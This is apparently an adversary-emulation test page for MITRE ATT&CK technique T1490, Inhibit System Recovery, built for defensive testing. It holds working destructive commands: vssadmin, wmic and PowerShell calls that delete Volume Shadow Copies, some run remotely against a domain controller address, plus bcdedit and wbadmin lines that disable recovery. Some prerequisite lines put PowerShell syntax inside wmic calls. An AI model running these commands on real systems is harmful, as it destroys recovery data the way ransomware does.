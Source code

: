 # T1490A - Inhibit System Recovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1490)
<blockquote>Adversaries may delete or remove built-in operating system data and turn off services designed to aid in the recovery of a corrupted system to prevent recovery.(Citation: Talos Olympic Destroyer 2018)(Citation: FireEye WannaCry 2017) Operating systems may contain features that can help fix corrupted systems, such as a backup catalog, volume shadow copies, and automatic repair features. Adversaries may disable or delete system recovery features to augment the effects of [Data Destruction](https://attack.mitre.org/techniques/T1485) and [Data Encrypted for Impact](https://attack.mitre.org/techniques/T1486).(Citation: Talos Olympic Destroyer 2018)(Citation: FireEye WannaCry 2017)

A number of native Windows utilities have been used by adversaries to disable or delete system recovery features:

* <code>vssadmin.exe</code> can be used to delete all volume shadow copies on a system - <code>vssadmin.exe delete shadows /all /quiet</code>
* [Windows Management Instrumentation](https://attack.mitre.org/techniques/T1047) can be used to delete volume shadow copies - <code>wmic shadowcopy delete</code>
* <code>wbadmin.exe</code> can be used to delete the Windows Backup Catalog - <code>wbadmin.exe delete catalog -quiet</code>
* <code>bcdedit.exe</code> can be used to disable automatic Windows recovery features by modifying boot configuration data - <code>bcdedit.exe /set {default} bootstatuspolicy ignoreallfailures & bcdedit /set {default} recoveryenabled no</code></blockquote>

## Atomic Tests

- [Atomic Test #1 - Windows - Delete Volume Shadow Copies](#atomic-test-1---windows---delete-volume-shadow-copies)

- [Atomic Test #2 - Windows - Delete Volume Shadow Copies via WMI](#atomic-test-2---windows---delete-volume-shadow-copies-via-wmi)

- [Atomic Test #3 - Windows - Delete Volume Shadow Copies via WMI with PowerShell](#atomic-test-3---windows---delete-volume-shadow-copies-via-wmi-with-powershell)

<br/>

## Atomic Test #1 - Windows - Delete Volume Shadow Copies
Deletes Windows Volume Shadow Copies. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer. Upon
execution, if no shadow volumes exist the message "No items found that satisfy the query." will be displayed. If shadow volumes are present, it
will delete them without printing output to the screen. This is because the /quiet parameter was passed which also suppresses the y/n
confirmation prompt. Shadow copies can only be created on Windows server or Windows 8.

https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/cc788055(v=ws.11)

**Supported Platforms:** Windows



#### Inputs:
| Name     | Description            | Type   | Default Value |
| -------- | ---------------------- | ------ | ------------- |
| DC_IP    | DC Address             | String | 192.168.1.100 |




#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic /node:#{DC_IP} process call create "vssadmin.exe delete shadows /all /quiet"
```




#### Dependencies:  Run with `powershell`!
##### Description: Create volume shadow copy of C:\ . This prereq command only works on Windows Server or Windows 8.
##### Check Prereq Commands:
```cmd
wmic /node:#{DC_IP} process call create 'if(!(vssadmin.exe list shadows | findstr "No items found that satisfy the query.")) {exit 0 } else { exit 1 }'
```
##### Get Prereq Commands:
```cmd
wmic /node:#{DC_IP} process call create "vssadmin.exe create shadow /for=c:"
```




<br/>
<br/>

## Atomic Test #2 - Windows - Delete Volume Shadow Copies via WMI
Deletes Windows Volume Shadow Copies via WMI. This technique is used by numerous ransomware families and APT malware such as Olympic Destroyer.
Shadow copies can only be created on Windows server or Windows 8.

**Supported Platforms:** Windows



#### Inputs:
| Name     | Description            | Type   | Default Value |
| -------- | ---------------------- | ------ | ------------- |
| DC_IP    | DC Address             | String | 192.168.1.100 |



#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wmic /node:#{DC_IP} process call create "wmic.exe shadowcopy delete"
```

#### Dependencies:  Run with `powershell`!
##### Description: Create volume shadow copy of C:\ . This prereq command only works on Windows Server or Windows 8.
##### Check Prereq Commands:
```powershell
wmic /node:#{DC_IP} process call create 'if(!(vssadmin.exe list shadows | findstr "No items found that satisfy the query.")) { exit 0 } else { exit 1 }'
```
##### Get Prereq Commands:
```powershell
wmic /node:#{DC_IP} process call create "vssadmin.exe create shadow /for=c:"
```





<br/>
<br/>

## Atomic Test #3 - Windows - Delete Volume Shadow Copies via WMI with PowerShell
Deletes Windows Volume Shadow Copies with PowerShell code and Get-WMIObject.
This technique is used by numerous ransomware families such as Sodinokibi/REvil.
Executes Get-WMIObject. Shadow copies can only be created on Windows server or Windows 8, so upon execution
there may be no output displayed.

**Supported Platforms:** Windows





#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
```

#### Dependencies:  Run with `powershell`!
##### Description: Create volume shadow copy of C:\ . This prereq command only works on Windows Server or Windows 8.
##### Check Prereq Commands:
```powershell
if(!(vssadmin.exe list shadows | findstr "No items found that satisfy the query.")) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```powershell
vssadmin.exe create shadow /for=c:
```





<br/>
